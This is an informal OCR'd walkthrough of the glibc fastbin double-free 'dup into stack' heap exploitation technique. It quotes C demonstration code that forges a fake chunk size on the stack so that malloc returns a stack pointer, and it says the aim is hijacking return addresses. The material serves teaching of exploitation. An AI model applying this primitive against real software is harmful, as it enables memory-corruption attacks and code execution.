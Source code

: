 The more basic fastbin_dup attack was a simple double free vulnerability. In this script, we will leverage
the same double free vulnerability that the fastbins provide us, but with a twist. In this attack, we will
also be forging chunks.

in this POC however, they will not be filling up the tcache, since it did not exist in glibc 2.23. We can
just go with it, since we dont really need a working POC, we only need the script that demonstrates what
is happening.

Okay, so lets just assume we have the same double free scenario, two pointers within our fastbin
to the same chunk. Lets continue after that fact.

```c
    fprintf(stderr, "Now the free list has [ %p, %p, %p ]. "
        "We'll now carry out our attack by modifying data at %p.\n", a, b, a, a);
    unsigned long long *d = malloc(8);

    fprintf(stderr, "1st malloc(8): %p\n", d);
    fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
    fprintf(stderr, "Now the free list has [ %p ].\n", a);
    fprintf(stderr, "Now, we have access to %p while it remains at the head of the free list.\n"
        "so now we are writing a fake free size (in this case, 0x20) to the stack,\n"
        "so that malloc will think there is a free chunk there and agree to\n"
        "return a pointer to it.\n", a);
```

okay, lets read this. It will show us our fastbin freelist, which contains a, b, and another a. It will
then tell us that the attack will involve modifying the data within our "a" chunk. It will then
malloc another chunk, and another chunk to get the pointers to "a", and "b" out of the fastbin.

the fastbin will now ONLY contain the pointer to the "a" chunk, that it has already returned. the pointer
to "a", is now stored within "d".

As it states, we have access to the top of the fastbin freelist, since we have 2 pointers to the same chunk.
Okay, so this attack will involve us writing a FAKE free size, onto the stack. Malloc will then be tricked
into thinking that there is a free chunk on the stack, and return a pointer to it. This means that
we will be able to write onto the stack, and hopefully hijack some ret addresses.

The others, not so much..

```c

    stack_var = 0x20;
    fprintf(stderr, "Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.\n", a);
    *d = (unsigned long long) (((char*)&stack_var) - sizeof(d));

    fprintf(stderr, "3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
    fprintf(stderr, "4th malloc(8): %p\n", malloc(8));
}
```
